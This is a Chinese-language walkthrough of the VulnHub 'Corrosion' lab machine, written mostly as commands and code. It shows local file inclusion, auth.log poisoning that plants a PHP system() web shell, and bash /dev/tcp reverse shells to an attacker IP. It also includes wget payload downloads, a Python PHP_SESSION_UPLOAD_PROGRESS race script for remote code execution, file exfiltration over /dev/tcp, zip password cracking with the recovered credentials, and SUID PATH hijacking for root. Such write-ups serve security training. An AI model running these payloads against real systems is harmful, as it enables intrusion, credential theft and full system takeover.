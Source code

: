 # Corrosion
###### tags: `vulnhub`
> URL : https://www.vulnhub.com/entry/corrosion-1,730/

IP : 35.229.145.176

## Recon
- 掃 Port
    - `rustscan -a 35.229.145.176 -r 1-65535`
        - ![](https://i.imgur.com/Wo4QJYS.png)
    - `nmap -A -p80,22 35.229.145.176`
        - ![](https://i.imgur.com/5c5j1F1.png)
- 掃路徑
    - `python3 dirsearch.py -u 35.229.145.176`
        - 只掃到 `/tasks/`
            - 裡面有一個 todo list
            - ![](https://i.imgur.com/oOy5dSC.png)
    - 換不同的 dict
        - `python3 dirsearch.py -u http://35.229.145.176/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`
            - 掃到 `/blog-post`
            - ![](https://i.imgur.com/4sZ5IqG.png)
            - http://35.229.145.176/blog-post/
    - 繼續掃
        - `python3 dirsearch.py -u http://35.229.145.176/blog-post/`
            - 找到 archives
            - ![](https://i.imgur.com/fmPKUZx.png)
            - 裡面有一個 php
                - ![](https://i.imgur.com/2iwQc9I.png)
## LFI 2 RCE

- 通靈到可以用 `?file` 來做 LFI
    - http://35.229.145.176/blog-post/archives/randylogs.php?file=php://filter/convert.base64-encode/resource=randylogs.php
        - `PD9waHAKICAgJGZpbGUgPSAkX0dFVFsnZmlsZSddOwogICBpZihpc3NldCgkZmlsZSkpCiAgIHsKICAgICAgIGluY2x1ZGUoIiRmaWxlIik7CiAgIH0KICAgZWxzZQogICB7CiAgICAgICBpbmNsdWRlKCJpbmRleC5waHAiKTsKICAgfQogICA/Pgo=`
    ```php
    <?php
       $file = $_GET['file'];
       if(isset($file))
       {
           include("$file");
       }
       else
       {
           include("index.php");
       }
       ?>
    ```
    - http://35.229.145.176/blog-post/archives/randylogs.php?file=../../../../../../../etc/passwd
        - ![](https://i.imgur.com/R4eyfsj.png)
- 根據題目提示說 `auth.log` 沒關
    - http://35.229.145.176/blog-post/archives/randylogs.php?file=../../../../../../../var/log/auth.log
        - ![](https://i.imgur.com/ZZs7AiW.png)
- `auth.log` 會把 ssh 登入的帳號給紀錄
    - `ssh 'meow@35.229.145.176'`
    - ![](https://i.imgur.com/dQTQax3.png)
    - ![](https://i.imgur.com/FORTuYq.png)

- 寫 phpinfo
    - `ssh '<?php phpinfo(); ?>@35.229.145.176'`
    - ![](https://i.imgur.com/R6Oj5ji.png)
    - ![](https://i.imgur.com/h0DYbcB.png)

- 寫 shell
    - `ssh '<?php system($_GET[A]) ?>@35.229.145.176'`
    - ![](https://i.imgur.com/9QroaCb.png)
    - `http://35.229.145.176/blog-post/archives/randylogs.php?file=../../../../../../../var/log/auth.log&A=id`
    - ![](https://i.imgur.com/2yF8Lz0.png)
- 戳 reverse shell
    - `bash -c 'bash -i >& /dev/tcp/35.201.246.140/7877 0>&1'`
    - `wget 35.201.246.140:8000/s`
    - http://35.229.145.176/blog-post/archives/randylogs.php?file=../../../../../../../var/log/auth.log&A=wget%2035.201.246.140:8000/s -O /tmp/s
    - ![](https://i.imgur.com/2xSNqry.png)
    - http://35.229.145.176/blog-post/archives/randylogs.php?file=../../../../../../../var/log/auth.log&A=bash /tmp/s
    - ![](https://i.imgur.com/V2XrGag.png)
- 補充，喵策會解法，LFI 無限制 RCE (PHP_SESSION_UPLOAD_PROGRESS)
```python
import grequests
sess_name = 'meowmeow'
sess_path = f'/var/lib/php/sessions/sess_{sess_name}'
base_url = 'http://35.229.145.176/blog-post/archives/randylogs.php'
param = "file"

# code = "file_put_contents('/tmp/shell.php','<?php system($_GET[a])');"
code = '''system("bash -c 'bash -i >& /dev/tcp/{domain}/{port} 0>&1'");'''

while True:
    req = [grequests.post(base_url,
                          files={'f': "A"*0xffff},
                          data={'PHP_SESSION_UPLOAD_PROGRESS': f"pwned:<?php {code} ?>"},
                          cookies={'PHPSESSID': sess_name}),
           grequests.get(f"{base_url}?{param}={sess_path}")]

    result = grequests.map(req)
    if "pwned" in result[1].text:
        print(result[1].text)
        break

```

## 進入 Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- 直接 sudo -l 嘗試提權
    - ![](https://i.imgur.com/v856hnz.png)
    - 需要密碼
- 準備 LinEnum
    - `wget 35.201.246.140:8000/LinEnum.sh`
    - ![](https://i.imgur.com/d0rOVig.png)
    - ![](https://i.imgur.com/NyhfvRT.png)
- 找到一個可疑檔案有 SGID
    - ![](https://i.imgur.com/NYy5aQ8.png)
    - ![](https://i.imgur.com/PjBtD0H.png)
    - ![](https://i.imgur.com/aLBAm1b.png)
- 傳出可疑檔案分析
    - 本機 `nc -l -p 1234 > write.ul`
    - 靶機 `cat /usr/bin/write.ul > /dev/tcp/35.201.246.140/1234`
        - ![](https://i.imgur.com/WoDsBaW.png)
    - 用 IDA 觀察
        - ![](https://i.imgur.com/HTQsyCy.png)
        - 看起來不像是需要逆的東西 QQ
        - 再繼續觀察
- 準備 Linpeas
    - ![](https://i.imgur.com/xczbBqr.png)
    - ![](https://i.imgur.com/Kj5SEXW.png)
- 找到備份檔案
    - ![](https://i.imgur.com/6RuyyKX.png)
    - 裡面有密碼
        - ![](https://i.imgur.com/oGU2Pig.png)
    - 傳出來
        - `cat user_backup.zip > /dev/tcp/35.201.246.140/1234`
- 用約翰爆破 zip
    - `zip2john  user_backup.zip > j`
    - `john j --wordlist=/opt/rockyou.txt`
        - ![](https://i.imgur.com/lGqxlAl.png)
        - 取得密碼為 `!randybaby`
- 解壓縮，取得密碼
    - ![](https://i.imgur.com/V6uLlD0.png)
    - ![](https://i.imgur.com/5fcJmBT.png)
    - `randylovesgoldfish1998`

- 透過 ssh 登入
    - 帳號 `randy`
    - 密碼 ``randylovesgoldfish1998`
- 取得 userflag
    - ![](https://i.imgur.com/mU3HKnB.png)

## 二次提權
- `sudo -l` 起手式
    - ![](https://i.imgur.com/ErcO50H.png)
    - 觀察先前壓縮檔中的程式
        - ![](https://i.imgur.com/OkOjUSq.png)
        - 因為他是 sudo 所以無法做 path 的汙染QQ
- 觀察檔案權限
    - ![](https://i.imgur.com/FTG4wPy.png)
    - 發現他有 suid，所以不用sudo
        - 就可以用 PATH 汙染 `cat` 了!
    - `echo "bash -c 'bash -i >& /dev/tcp/35.201.246.140/7878 0>&1'" > cat`
    - `chmod +x cat`
    - `PATH=/home/randy/fakepath:$PATH /home/randy/tools/easysysinfo`
- 收 reverse shell
    - ![](https://i.imgur.com/gDvDTRs.png)
- 取得 root flag
    - ![](https://i.imgur.com/VArwk2F.png)

## 心得
學到了喵策會的 LFI 大絕招 ； 除了 sudo 外還要在意 SUID，看樣子常常忘東忘西可能要來準備 Check list 了QQ